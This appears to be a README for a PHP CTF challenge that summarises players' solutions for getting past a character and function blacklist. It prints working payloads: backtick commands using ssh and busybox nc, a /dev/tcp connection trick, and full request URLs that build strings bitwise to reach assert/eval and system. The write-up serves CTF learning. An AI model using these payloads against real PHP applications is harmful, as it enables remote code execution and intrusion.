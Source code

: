 ![Hall Of Fame](hof.png)
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Abusing backstick:
* Create a temporary file containing chunks (by using: printf/echo/...)
* Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
* See nyan/orange/kaibro/xassiz sol.(there is one-line sol)
* shout out to nyan for the full details [writeup](writeup/nyan.pdf).


### Abusing ssh / busybox
It ... surprised me 
* ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
* ```die(`bus\yb\ox nc 0:888\8`);```
* Using `ssh` and blackslash (See `huyphan` sol)


### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
* `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
* Also see kad96/fa_boy/tsu solutions.
* `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
